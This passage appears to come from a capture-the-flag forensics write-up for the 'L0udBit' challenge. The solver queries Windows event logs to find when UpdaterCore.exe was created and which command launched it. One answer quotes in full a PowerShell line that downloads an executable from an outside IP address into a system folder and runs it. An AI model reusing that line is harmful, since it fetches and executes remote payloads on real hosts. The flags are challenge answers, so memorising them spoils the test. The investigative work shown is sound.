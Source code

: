 Filter for `host.name:officewin9` and `event.categoryaction: File created (rule: FileCreate)` and search for `UpdaterCore.exe`, look for the `CreationUtcTime` in the log details:

![](img/L0udBit/20250129135435.png)

> Flag: `2025-01-16 16:07:20.182`

## L0udBit_27
> What is the full process.command_line which was used to download and execute UpdaterCore.exe?

Searched for `UpdaterCore.exe` and filter `process.command_line:exists`. There were lot of logs so found the oldest one and looked at the log details:

![](img/L0udBit/20250129135953.png)

> Flag: `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "& {Invoke-WebRequest -Uri 'http://72.21.192.5/UpdaterCore.exe' -OutFile 'c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe';Start-Process -FilePath 'c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe'}"`

## L0udBit_29
> What is the IP address to which UpdaterCore.exe established a network connection?

Search for `winlog.task : "Network connection detected (rule: NetworkConnect)" AND process.name:"UpdaterCore.exe"` and filter on `host.name:officewin9`.
Answer is in the `destination.ip` field:

![](img/L0udBit/20250129152907.png)
